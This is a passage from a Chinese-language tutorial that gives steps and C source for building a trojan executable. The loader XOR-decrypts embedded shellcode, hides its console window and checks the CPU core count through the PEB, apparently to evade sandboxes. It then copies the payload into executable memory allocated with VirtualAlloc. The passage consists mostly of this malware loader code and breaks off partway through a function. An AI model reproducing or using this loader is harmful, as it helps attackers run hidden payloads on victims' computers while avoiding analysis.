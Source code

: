 ```php
  }
}
```

# 0x04 代码

使用该代码的流程：

1.  使用加密函数加密shellcode
2.  将shellcode填充到`"\xe8\x2b\x10\x06\x00"`字符常量的后面
3.  编译生成木马exe

```php
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//隐藏控制台

typedef void (*CODE)();
/* length: 844 bytes */
//0xe8, 0x2b, 0x10, 0x06, 0x00,...
unsigned char shellcode[] = "\xe8\x2b\x10\x06\x00";

PVOID p = NULL;

void decrypt()
{
    //解密Shellcode
    for(int i = 5;i<sizeof(shellcode);i++)
    {
        ((char*)p)[i] = ((char*)p)[i]^184^6;
    }

}

// 检查CPU核心数
// SYSTEM_INFO.dwNumberOfProcessors
INT checkCPUCores(INT cores)
{
    INT i = 0;
    _asm { // x64编译模式下不支持__asm的汇编嵌入
        mov eax, dword ptr fs : [0x18]; // TEB
        mov eax, dword ptr ds : [eax + 0x30]; // PEB
        mov eax, dword ptr ds : [eax + 0x64];
        mov i, eax;
    }
    return i;
}

DWORD WINAPI ThreadProc(        
             LPVOID lpParameter   // thread data
             )
{

    //申请内存
    if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)
    {
        //MessageBoxW(NULL, L"VirtualAlloc Failed!!!", L"Prompt", MB_OK);
        return 1;
    }

    //复制shellcode
    if (!(memcpy(p, shellcode, sizeof(shellcode))))
```